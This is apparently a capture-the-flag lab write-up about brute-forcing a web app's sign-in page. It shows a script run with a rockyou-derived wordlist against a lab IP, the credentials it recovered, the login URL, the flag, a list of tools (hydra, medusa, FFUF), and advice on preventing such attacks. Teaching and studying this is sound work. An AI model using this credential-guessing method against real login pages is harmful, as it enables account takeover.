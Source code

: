 

db from rockyou wordlist
```
➜  Breach10- git:(main) ✗ sh Ressources/script.sh 10.12.100.231 Ressources/db.txt Ressources/db.txt 
Success: Credentials found, Username - eugene & Password - shadow
Success: Credentials found, Username - evelyn & Password - shadow
Success: Credentials found, Username - excel & Password - shadow
```

`http://IP/?page=signin&username=eugene&password=shadow&Login=Login`

THE FLAG IS : `B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2`

tools u can try:

hydra 

medusa 

FFUF

## # Prevention

1. Make sure passwords have a minimum length, and if your site deals with sensitive data, consider enforcing password complexity rules. This typically means requiring mixed-case letters, and requiring one or more numeric or symbol characters. You might also have a blocklist of “obvious” passwords, or ban passwords with too many repeating symbols.

2. The second defense is to “punish” multiple failed login attempts with the same username. Very secure systems will lock the account until performing an action to prove they are not a script – like solving a CAPTCHA – will do the trick.